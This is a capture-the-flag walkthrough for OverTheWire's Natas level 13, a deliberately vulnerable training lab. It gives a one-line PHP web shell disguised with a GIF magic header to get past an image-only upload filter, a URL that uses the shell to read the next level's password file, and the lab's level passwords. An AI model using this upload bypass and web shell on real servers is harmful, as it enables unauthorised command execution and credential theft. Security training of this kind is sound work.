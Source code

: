 # Natas Level 13 → Level 14
(Updated: 13 August 2025)

## Credentials
- **Username:** `natas13`
- **Password:** `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`

## Connection
Level url: [http://natas13.natas.labs.overthewire.org/](http://natas13.natas.labs.overthewire.org/)

## Steps to Solve
1. Step 1 - Just like the previous level we have to use the image uploading to access to shell and `cat` the password. However, this level has blocked `.php` file (or others that isn't image).
2. Step 2 - Create a `shell.php` with this content:
```php
GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```
- `GIF87`: is a magic header that maked the server thinks this is a `.gif` file (but it is a `.php`).
3. Step 3 - Use `DevTools` and change the exec type of the uploaded file to `.php`.
4. Step 4 - Upload the `shell.php` we created and access to [http://natas13.natas.labs.overthewire.org/upload/rn81hkpyec.php?e=cat%20/etc/natas_webpass/natas14](http://natas13.natas.labs.overthewire.org/upload/rn81hkpyec.php?e=cat%20/etc/natas_webpass/natas14) to get the password.
5. Step 5 - Take the password to the next level.

## Next Level Password
`z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`
